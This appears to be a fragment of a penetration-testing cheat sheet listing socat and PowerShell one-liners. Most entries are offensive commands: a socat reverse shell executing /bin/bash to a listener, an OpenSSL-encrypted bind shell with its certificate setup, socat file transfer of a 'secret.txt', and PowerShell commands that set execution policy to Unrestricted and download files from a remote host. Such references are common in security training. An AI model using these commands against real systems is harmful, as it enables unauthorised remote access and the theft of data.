**Misc Commands**
```
socat - TCP4:<remote server's ip address>:80                                    Connect to a remote server on port 80
socat TCP4-LISTEN:<PORT> STDOUT                                                 Create a listener
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                           Create a listener, -d -d for more verbosity
socat TCP4-LISTEN:<PORT>,fork file:secret.txt                                   Transfer a file
socat TCP4:<IP>:<PORT> file:received_secret.txt,create                          Receive a file
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                           Send a reverse shell
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
socat - OPENSSL:<IP>:<PORT>,verify=0                                            Connect to an encrypted bind shell
```

**Reverse Shell**
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                     User 1, create a listener
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                     User 2, send reverse shell to User 1
```

**Encrypted bind shell with OpenSSL**
```
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt

  req: initiate a new certificate signing request
  -newkey: generate a new private key
  rsa:2048: use RSA encryption with a 2,048-bit key length.
  -nodes: store the private key without passphrase protection
  -keyout: save the key to a file
  -x509: output a self-signed certificate instead of a certificate request
  -days: set validity period in days
  -out: save the certificate to a file

$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ sudo socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
$ socat - OPENSSL:<IP>:<PORT>,verify=0                                                 Connect to the encrypted bind shell
```

## PowerShell

**Misc Commands**
```PowerShell
Set-ExecutionPolicy Unrestricted                                                                        Set the PowerShell execution policy
Get-ExecutionPolicy                                                                                     Get value for ExecutionPolicy
(new-object System.Net.WebClient).DownloadFile('http://<IP>/<filename>','C:\<DIR>\<filename>')          Download a file
iwr -uri http://<IP>/<filename> -Outfile <filename>                                                     Download a file
powershell -c "command"                                                                                 The -c option will execute the supplied command as if it were typed at the PowerShell prompt
```
